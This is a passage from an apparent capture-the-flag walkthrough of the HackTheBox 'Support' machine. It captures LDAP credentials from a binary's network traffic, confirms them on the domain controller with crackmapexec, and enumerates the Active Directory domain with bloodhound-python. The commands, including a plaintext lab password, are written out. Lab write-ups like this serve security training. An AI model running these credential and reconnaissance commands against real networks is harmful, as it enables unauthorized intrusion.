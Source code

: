 

#### Dynamic

On my Linux system, I've got the .NET framework installed, which comes
with the `mono` binary, which can be used to run this binary as well. If
I open Wireshark and run the binary, I'll capture the authentication in
the LDAP stream:

![](/img/image-20221214172817603.png)

This can also be seen in the packet that Wireshark labels as
"bindRequest":

![](/img/image-20221214172910209.png)

Interestingly, this doesn't work on Windows. I'll dig a bit in [Beyond
Root](#beyond-root).

### Verify Creds

`crackmapexec` is a nice way to quickly show these creds work:



    oxdf@hacky$ crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
    SMB         dc.support.htb  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
    SMB         dc.support.htb  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 



## Shell as support

### BloodHound

Whenever I find creds on Windows, I'll run Bloodhound. Since I don't
have a shell, I'll use the Python version:



    oxdf@hacky$ bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
    INFO: Found AD domain: support.htb
    INFO: Connecting to LDAP server: dc.support.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 2 computers
    INFO: Connecting to LDAP server: dc.support.htb
    INFO: Found 21 users
    INFO: Found 53 groups
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: Management.support.htb
    INFO: Querying computer: dc.support.htb
    INFO: Done in 00M 13S
